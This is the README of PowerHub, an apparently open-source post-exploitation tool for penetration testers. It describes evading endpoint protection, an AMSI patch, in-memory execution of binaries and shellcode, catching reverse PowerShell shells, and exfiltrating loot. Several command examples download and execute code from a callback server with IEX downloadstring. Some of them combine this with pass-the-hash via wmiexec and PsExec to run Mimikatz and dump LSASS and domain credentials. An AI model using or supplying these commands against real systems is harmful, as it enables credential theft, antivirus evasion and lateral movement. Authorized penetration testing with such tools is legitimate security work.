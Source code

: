 PowerHub
========

PowerHub is a convenient post exploitation tool which aids a pentester in
transferring files, in particular code which may get flagged by endpoint
protection.

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

On top of that, PowerHub comes with a powerful reverse PowerShell, making
it suitable for any kind of post-exploitation action.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;$K.proxy=[Net.WebRequest]::GetSystemWebProxy();$K.Proxy.Credent
ials=[Net.CredentialCache]::DefaultCredentials;IEX $K.downloadstring('http://192.168.11.2:8000/0');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
AmsiScanBuffer patch has been applied.
0
PS C:\Users\avollmer> lhm powerview
[*] /ps1/PowerSploit/Recon/PowerView.ps1 imported.
PS C:\Users\avollmer> Get-LocalGroup | ConvertTo-Json | Out-file groups.json
PS C:\Users\avollmer> pth groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)

How it works
============

The web application is made with Flask and consists of four parts.

The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, .NET or PE executables, or shell code. You can load them on the
target via PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more
information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

A simple interface to install modules is provided for your convenience.

The Receiver
------------

The receiver catches incoming reverse shells and lists them here. Each shell
receives a random ID consisting of an eight digit hex string. You can
interact with it by executing the accompanying script: `./ph <ID>`.

This lands you inside a PowerShell instance. It's a _nice_ shell, too: It
supports colors, a history, tab completion, vim/emacs edit modes, it
respects your terminal's column count and accidentally pressing CTRL+C is
not a big deal - simply reconnect to it. Run `./ph -h` for more information.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one-liners, and so forth. It's like an extremely basic
[Etherpad](https://etherpad.org/) or a guest book.

The File Exchange
-----------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

If you have the necessary Python modules installed, a WebDAV service is also
started. You can mount it on the target as a network drive with
`Mount-WebDAV` (as 'S:' by default). It allows for anonymous login and it
contains three folders:

* `public` with read/write access for everyone
* `ro` with *read only* access for everyone -- maybe you can bypass a weak
  anti virus with this
* `blackhole` for dropping sensitive data. Any file placed here via WebDAV
  will immediately be moved to the `blackhole` directory in the script's
  root directory.

The dependencies for the WebDAV service are `wsgidav` (installable via
`pip3`), `cheroot` and `watchdog`.

Usage
=====

PowerHub has one mandatory arguments: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` for details.

Examples
========

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/0\"); Load-Hubmodule Mimikatz ; Invoke-Mimikatz -DumpCreds "'
```

Or similarly, if you obtained the `krbtgt` hash and created a golden ticket
which you injected with Mimikatz. Then you can get the NTLM hash of any
arbitrary user in the forest:

```
PS C:\Users\pentestuser> .\PsExec64.exe \\DC01.acme.local -s powershell -c '$K=new-object net.webclient;IEX $K.downloadstring(\"http://192.168.1.5:8000/0\");load-hubmodule mimikatz; Invoke-Mimikatz -Command ''\"lsadump::lsa /inject /name:adm_targetuser\"'''
```

Getting the escape sequence on the quotes right can be tough...

Let's say you want to execute a meterpreter in memory, then you do this:

```
PS C:\Users\pentestuser> lhm ReflectivePEInjection; lhm meterpreter.exe|re
```

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
